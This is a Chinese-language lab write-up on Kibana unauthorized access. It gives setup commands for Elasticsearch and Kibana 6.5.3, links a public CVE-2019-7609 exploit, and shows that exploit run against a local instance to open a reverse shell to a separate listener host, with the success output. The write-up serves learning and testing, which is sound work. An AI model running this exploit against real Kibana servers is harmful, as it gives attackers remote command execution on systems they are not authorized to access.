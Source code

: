 # Kibana 未授权访问漏洞

## 漏洞描述

Kibana 未授权访问漏洞是指在 Kibana 未正确配置认证和授权的情况下，未经身份验证的用户可以访问 Kibana 的仪表板、数据及其他敏感信息。这种漏洞可能会导致数据泄露、攻击者控制 Kibana 环境以及其他安全威胁。

## 环境搭建

安装elasticsearch

```
cd /opt
wget https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.5.3.tar.gz
tar -zxvf elasticsearch-6.5.3.tar.gz
cd elasticsearch-6.5.3
useradd es
chmod 777 -R /opt/elasticsearch-6.5.3
./bin/elasticsearch
```

![image-20220726162834227](../../.gitbook/assets/image-20220726162834227.png)

安装kibana

```
wget https://artifacts.elastic.co/downloads/kibana/kibana-6.5.3-linux-x86_64.tar.gz
tar xvf kibana-6.5.3-linux-x86_64.tar.gz
cd kibana-6.5.3-linux-x86_64
./bin/kibana
```

浏览器访问5601端口。

![image-20220726163136064](../../.gitbook/assets/image-20220726163136064.png)

## 漏洞利用

exp：https://github.com/LandGrey/CVE-2019-7609

```
[root@localhost CVE-2019-7609-master]# python CVE-2019-7609-kibana-rce.py -u 127.0.0.1:5601 -host 192.168.32.130 -port 9999 --shell
[+] http://127.0.0.1:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 192.168.32.130:9999
```

![image-20230129212312934](../../.gitbook/assets/image-20230129212312934.png)